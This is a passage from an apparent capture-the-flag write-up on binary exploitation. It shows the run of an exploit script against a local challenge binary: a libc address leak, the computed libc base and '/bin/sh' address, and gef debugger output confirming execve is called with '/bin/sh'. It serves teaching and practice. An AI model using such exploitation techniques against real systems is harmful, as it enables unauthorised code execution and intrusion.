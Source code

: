 # Pwned

As we are done understanding the payload, it's time to run the final script:-

---

> Note: I put a breakpoint at `execve`. This will help us to check the arguments provided to it.

```r
gef➤  b *execve
Breakpoint 1 at 0x7fa7defa0e30: file ../sysdeps/unix/syscall-template.S, line 78.
```

---

```r
d4mianwayne@oracle:~/pwn1$ python3 xpl.py 
[*] '/home/d4mianwayne/pwn1/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './chall': pid 15085
[*] puts@libc : 0x7f09dd95e9c0
[*] libc      : 0x7f09dd8de000
[*] '/bin/sh' : 6295888
[*] Paused (press any to continue)
```

Now, we will attach the process, and continue:-

```r
gef➤  b *execve
Breakpoint 1 at 0x7f09dd9c2e30: file ../sysdeps/unix/syscall-template.S, line 78.
gef➤  c
Continuing.
[ Legend: Modified register | Code | Heap | Stack | String ]

-- snip -- 

───────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x7f09dd9c2e30 in execve (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f09dd9c2e30 → execve()
──────────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, execve () at ../sysdeps/unix/syscall-template.S:78
78	../sysdeps/unix/syscall-template.S: No such file or directory.

gef➤  x/s $rdi
0x601150:	"/bin/sh"
gef➤  x/x $rdx
0x0:	Cannot access memory at address 0x0
gef➤  x/x $rsi
0x0:	Cannot access memory at address 0x0
```
